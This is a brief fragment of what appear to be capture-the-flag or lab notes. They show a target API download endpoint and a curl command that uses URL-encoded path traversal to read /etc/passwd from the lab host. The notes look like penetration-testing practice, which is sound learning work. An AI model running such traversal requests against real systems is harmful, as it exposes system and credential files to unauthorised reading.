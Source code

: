 ___

```
http://10.129.202.133:3000/api/download
```

![[Pasted image 20241016100458.png]]

```bash
curl "http://10.129.202.133:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

